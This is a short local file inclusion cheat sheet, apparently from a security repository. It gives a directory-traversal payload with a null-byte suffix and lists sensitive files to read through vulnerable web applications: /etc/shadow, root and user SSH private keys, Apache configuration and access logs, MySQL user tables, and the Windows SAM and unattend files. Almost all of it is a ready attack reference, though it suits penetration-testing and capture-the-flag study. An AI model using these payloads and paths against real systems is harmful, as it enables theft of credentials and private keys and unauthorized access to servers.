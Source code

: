 # LFI Cheat Sheet

[LINK](https://xapax.gitbooks.io/security/content/local_file_inclusion.html)
### Useful LFI files
../../../../../etc/passwd%00

### Linux:
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
/etc/ssh/ssh_config
/etc/ssh/sshd_config
/root/.ssh/id_rsa
/root/.ssh/authorized_keys
/home/user/.ssh/authorized_keys
/home/user/.ssh/id_rsa

### Apache:
#### Configuration Files:
/etc/apache2/apache2.conf
/usr/local/etc/apache2/httpd.conf
/etc/httpd/conf/httpd.conf

### Log Files:
### Red Hat/CentOS/Fedora Linux-   /var/log/httpd/access_log
### Debian/Ubuntu-   /var/log/apache2/access.log
### FreeBSD-   /var/log/httpd-access.log

### Generic:
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/apache2/access.log
/var/log/apache/error.log

### MySql:
/var/lib/mysql/mysql/user.frm
/var/lib/mysql/mysql/user.MYD
/var/lib/mysql/mysql/user.MYI

### Windows:
/boot.ini
/autoexec.bat
/windows/system32/drivers/etc/hosts
/windows/repair/SAM
/windows/panther/unattended.xml
/windows/panther/unattend/unattended.xml
